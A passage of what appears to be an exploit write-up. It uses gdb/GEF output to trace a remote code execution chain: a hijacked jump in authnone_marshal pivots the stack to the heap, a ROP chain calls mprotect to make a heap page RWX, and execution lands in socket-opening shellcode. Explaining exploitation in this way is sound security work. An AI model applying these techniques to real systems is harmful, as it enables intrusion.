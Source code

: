 ```
gef➤  p $rax
$5 = 0x563593915358
gef➤  x/gx $rax + 0x18
0x563593915370:	0x00007f875a9fc679
gef➤  x/i 0x00007f875a9fc679
   0x7f875a9fc679 <__libgcc_s_init+61>:	ret 
```

At the time of `jmp rax`:

```
   0x7f875ab201a3 <authnone_marshal+19> lea    rsi, [rdi+0x48]
   0x7f875ab201a7 <authnone_marshal+23> mov    rdi, r8
   0x7f875ab201aa <authnone_marshal+26> mov    rax, QWORD PTR [rax+0x18]
 → 0x7f875ab201ae <authnone_marshal+30> jmp    rax
   0x7f875ab201b0 <authnone_marshal+32> xor    eax, eax
   0x7f875ab201b2 <authnone_marshal+34> ret    

--------------------------------------------------------------

gef➤  p $rax
$6 = 0x7f875a9fc679
gef➤  x/i $rax
   0x7f875a9fc679 <__libgcc_s_init+61>:	ret 
```

And we can see stack was pivoted successfully:

```
gef➤  p $rsp
$7 = (void *) 0x563593915358
gef➤  x/gx 0x563593915358
0x563593915358:	0x00007f875aa21550
gef➤  x/i 0x00007f875aa21550
   0x7f875aa21550 <mblen+112>:	pop    rax

```

ROPchain will setup a syscall call to `SYS_mprotect`, which will change memory protection for a heap range to `RXW`. Then, we will jump into the shellcode, thus finally achieving Remote Code Execution

If we check the mappings with gdb we can see that part of the heap is now `RWX`, which is actually where the shellcode resides:

```
0x0000563593889000 0x00005635938cb000 0x0000000000000000 rw- [heap]
0x00005635938cb000 0x0000563593915000 0x0000000000000000 rw- [heap]
0x0000563593915000 0x0000563593916000 0x0000000000000000 rwx [heap]
0x0000563593916000 0x000056359394e000 0x0000000000000000 rw- [heap]
```

Now we are jumping to shellcode, as it now resides on executable memory, so Remote Code Execution succeed:

```
   0x7f875aa3d229 <funlockfile+73> syscall 
 → 0x7f875aa3d22b <funlockfile+75> ret    
   ↳  0x563593915310                  push   0x29
      0x563593915312                  pop    rax
      0x563593915313                  push   0x2
      0x563593915315                  pop    rdi
      0x563593915316                  push   0x1
      0x563593915318                  pop    rsi
```
